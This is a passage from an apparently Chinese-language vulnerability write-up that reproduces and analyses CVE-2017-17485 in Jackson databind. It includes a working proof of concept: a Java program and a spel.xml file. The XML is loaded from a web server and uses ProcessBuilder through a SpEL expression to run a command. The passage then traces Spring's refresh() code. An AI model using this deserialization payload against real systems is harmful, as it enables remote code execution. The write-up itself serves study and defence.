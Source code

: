 ## 0x02 漏洞复现  
`ClassPathXmlApplicationContext`这个类是用来加载一些 XML 资源的，而最后的攻击实现也是如此  
Poc.java  
```java  
package org;    
    
import com.fasterxml.jackson.databind.ObjectMapper;    
    
import java.io.IOException;    
    
public class Poc {    
    public static void main(String[] args) throws Exception{    
        //CVE-2017-17485    
        String payload = &#34;[\&#34;org.springframework.context.support.ClassPathXmlApplicationContext\&#34;, \&#34;http://127.0.0.1:8888/spel.xml\&#34;]&#34;;    
        ObjectMapper mapper = new ObjectMapper();    
        mapper.enableDefaultTyping();    
        try {    
            mapper.readValue(payload, Object.class);    
        } catch (IOException e) {    
            e.printStackTrace();    
        }    
    }    
        
}  
```  
spel.xml，放置在第三方 Web 服务器中，看到 id 为 pb 的 bean 标签，指定类为`java.lang.ProcessBuilder`，在其中有两个子标签，`constuctor-arg`标签设置参数值为具体的命令，`property`标签调用`start()`方法  
spel.xml  
```xml  
&lt;beans xmlns=&#34;http://www.springframework.org/schema/beans&#34;    
       xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;    
       xsi:schemaLocation=&#34;    
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd&#34;&gt;    
    &lt;bean id=&#34;pb&#34; class=&#34;java.lang.ProcessBuilder&#34;&gt;    
        &lt;constructor-arg value=&#34;calc&#34; /&gt;    
        &lt;property name=&#34;whatever&#34; value=&#34;#{ pb.start() }&#34;/&gt;    
    &lt;/bean&gt;    
&lt;/beans&gt;  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411140008786.png)
## 0x03 漏洞分析  
这里的 XML 内容解析，到 SpEL 表达式注入，其实是涉及到 Spring 的 IOC 原则。  
`ClassPathXmlApplicationContext`的构造函数。在`ClassPathXmlApplicationContext`中有很多构造方法，其中有一个是传入一个字符串的（即配置文件的相对路径），但最终是调用的的下面这个构造。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411142007847.png)
Spring在这里先创建解析器，解析`configLocations`，跟进`refresh()`方法，`refresh()`方法做的核心业务是刷新容器（启动容器都会调用该方法），跟进之后的核心代码如下  
```java  
public void refresh() throws BeansException, IllegalStateException {    
    synchronized (this.startupShutdownMonitor) {    
       // Prepare this context for refreshing.    
       prepareRefresh();    
    
       // Tell the subclass to refresh the internal bean factory.    
       ConfigurableListableBeanFactory beanFactory = obtainFreshBeanFactory();    
    
       // Prepare the bean factory for use in this context.    
       prepareBeanFactory(beanFactory);    
    
```